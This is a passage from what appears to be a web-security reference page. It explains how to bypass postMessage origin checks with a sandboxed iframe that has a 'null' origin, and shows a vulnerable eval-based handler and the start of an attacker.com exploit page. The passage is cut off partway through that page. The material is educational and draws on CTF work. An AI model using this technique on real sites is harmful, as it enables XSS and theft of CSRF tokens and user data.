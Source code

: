 Another more tricky condition to bypass is the following ([source](https://twitter.com/terjanq/status/1511846053427003393)):

{% code title="Vulnerable Example" %}
```javascript
onmessage = (e) => {
  if (e.origin !== window.origin) return;
  // ^^ Using window.origin instead of window.location.origin is unsafe!
}
```
{% endcode %}

The above is exploitable because using iframe sandboxes, `e.origin` as well as `window.origin` can both be set to `'null'`. After doing so, SameSite=Lax cookies will be used to initiate the top-level request and may have placed a secret CSRF token or user data in the HTML, which can be read by exploiting the `postMessage` handler. The following was a CTF challenge that required you to use this novel technique to steal another identifier causing XSS:

[https://twitter.com/terjanq/status/1446500485142355972](https://twitter.com/terjanq/status/1446500485142355972)

The technique goes as follows:

1. Victim visits the attacker's website
2. Create an iframe with a strict sandbox (excluding `allow-same-origin`) to make its origin `'null'`
3. Inside the `srcdoc` of this frame, open a window to the vulnerable target page after interaction. This will inherit the `'null'` origin so the source and destination are the same, which will bypass the check
4. After the message listener is registered, send a postMessage with the exploit to cause XSS in a `'null'` origin
5. Use this XSS to leak any data on the current page. You **cannot access** resources like cookies or localStorage, and fetches will exclude any cookies because the origin is `'null'` and [SOP](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy) is in effect. The idea is to read a CSRF token on the vulnerable page and **exfiltrate** it for another attack

Below is an example of a vulnerable page that registers a message listener and shows sensitive content on the page (cookies directly, but this may be a CSRF token or user data):

<pre class="language-php" data-title="https://example.com"><code class="lang-php">&#x3C;?php
// Vulnerable handler page contains some sensitive data
<strong>print_r($_COOKIE);
</strong>?>
&#x3C;script>
<strong>  onmessage = (e) => {
</strong><strong>    if (e.origin !== window.origin) return;
</strong><strong>    eval(e.data);
</strong>  }
&#x3C;/script>
</code></pre>

This can be exploited with a single click on the following attacker's page:

{% code title="https://attacker.com" %}
```html
<body>
  <script>
    // Sandboxed iframe to create 'null' origins
    const frame = document.createElement("iframe");
    frame.sandbox = "allow-scripts allow-popups allow-modals allow-top-navigation";

    frame.srcdoc = `
  <h1>Click here!</h1>
  <script>
  onclick = () => {
    // Open the target page in a top-level context, including SameSite=Lax cookies
    const w = window.open("https://example.com");
    
```